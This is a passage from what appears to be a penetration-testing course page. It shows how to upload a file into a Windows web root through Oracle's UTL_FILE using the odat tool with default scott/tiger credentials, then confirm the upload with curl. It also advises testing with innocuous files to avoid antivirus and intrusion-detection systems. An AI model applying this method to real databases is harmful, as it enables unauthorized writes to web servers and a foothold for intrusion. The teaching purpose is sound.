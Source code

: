 <td>Linux</td>
<td><code>/var/www/html</code></td>
</tr>
<tr>
<td>Windows</td>
<td><code>C:\inetpub\wwwroot</code></td>
</tr>
</tbody>
</table>
<p>First, trying our exploitation approach with files that do not look dangerous for Antivirus or Intrusion detection/prevention systems is always important. Therefore, we create a text file with a string and use it to upload to the target system.</p>
<h4>Oracle RDBMS - File Upload</h4>
<pre><code class="language-shell-session">[!bash!]$ echo "Oracle File Upload Test" &gt; testing.txt
[!bash!]$ ./odat.py utlfile -s 10.129.204.235 -d XE -U scott -P tiger --sysdba --putFile C:\\inetpub\\wwwroot testing.txt ./testing.txt

[1] (10.129.204.235:1521): Put the ./testing.txt local file in the C:\inetpub\wwwroot folder like testing.txt on the 10.129.204.235 server                                                                                                  
[+] The ./testing.txt file was created on the C:\inetpub\wwwroot directory on the 10.129.204.235 server like the testing.txt file
</code></pre>
<p>Finally, we can test if the file upload approach worked with <code>curl</code>. Therefore, we will use a <code>GET http://&lt;IP&gt;</code> request, or we can visit via browser.</p>
<pre><code class="language-shell-session">[!bash!]$ curl -X GET http://10.129.204.235/testing.txt

Oracle File Upload Test
</code></pre>
<div class="my-3 p-3 vpn-switch-card" id="vpn-switch">
<p class="font-size-14 color-white mb-0">VPN Servers</p>
<p class="font-size-13 mb-0">
<i class="fas fa-exclamation-triangle text-warning"></i><span class="color-white ml-1">Warning:</span> Each
                    time you "Switch",
                    your connection keys are regenerated and you must re-download your VPN connection file.
                </p>
<p class="font-size-13 mb-0">
                    All VM instances associated with the old VPN Server will be terminated when switching to
                    a new VPN server. <br/>
                    Existing PwnBox instances will automatically switch to the new VPN server.</p>
<div class="row mb-3">
<div class="col-12 mt-2">
<div class="d-none justify-content-center vpn-loader">
<div class="spinner-border text-success" role="status">
<span class="sr-only">Switching VPN...</span>
</div>
</div>
<select aria-label="vpn server" class="selectpicker custom-form-control vpnSelector badge-select" title="Select VPN Server">
<option data-content="&lt;div class='d-flex justify-content-between align-items-center'&gt; &lt;div class='server-title'&gt;US Academy 6 &lt;/div&gt; &lt;div class='d-flex align-items-center'&gt; &lt;span class='recommended'&gt; &lt;img src='/images/sparkles-solid.svg'/&gt;Recommended&lt;/span&gt;  &lt;div class='d-flex align-items-center justify-content-center mr-2 load load-warning '&gt;medium Load  &lt;/div&gt;  &lt;/div&gt;&lt;/div&gt;" data-level="30" value="17">US Academy 6</option>
<option data-content="&lt;div class='d-flex justify-content-between align-items-center'&gt; &lt;div class='server-title'&gt;US Academy 5 &lt;/div&gt; &lt;div class='d-flex align-items-center'&gt;  &lt;div class='d-flex align-items-center justify-content-center mr-2 load load-warning '&gt;medium Load  &lt;/div&gt;  &lt;/div&gt;&lt;/div&gt;" data-level="31" value="16">US Academy 5</option>
<option data-content="&lt;div class='d-flex justify-content-between align-items-center'&gt; &lt;div class='server-title'&gt;US Academy 4 &lt;/div&gt; &lt;div class='d-flex align-items-center'&gt;  &lt;div class='d-flex align-items-center justify-content-center mr-2 load load-warning '&gt;medium Load  &lt;/div&gt;  &lt;/div&gt;&lt;/div&gt;" data-level="32" value="13">US Academy 4</option>